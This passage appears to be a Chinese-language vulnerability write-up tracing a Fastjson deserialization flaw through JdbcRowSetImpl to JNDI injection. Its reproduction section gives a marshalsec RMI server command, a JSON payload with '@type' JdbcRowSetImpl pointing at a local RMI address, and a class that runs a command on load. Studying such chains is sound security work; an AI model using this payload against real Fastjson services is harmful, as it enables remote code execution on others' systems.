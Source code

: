 ![image-20220228171948623](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220228171948623.png)

将dataSourceName值设置为目标RMI服务的地址,主要是为了后面的getDataSourceName

接下来就是payload中设置了autoCommit值,调用setAutoCommit()函数

![image-20220228172216978](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220228172216978.png)

跟进connect

```
public String getDataSourceName() {
    return dataSource;
}
```

这里的getDataSourceName是我们在前面setDataSourceName()方法中设置的值，是我们可控的，所以进入了elseif

![image-20220228172249835](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220228172249835.png)

这里调用了InitialContext的原生lookup方法,实现了JNDI注入

## 漏洞复现

```
起一个rmi服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8088/#badClassName
```

Unser.java

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;

public class Unser {
    public static void main(String[] argv){
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/badClassName\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

badClassName.java

```
public class badClassName {
    public badClassName() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```
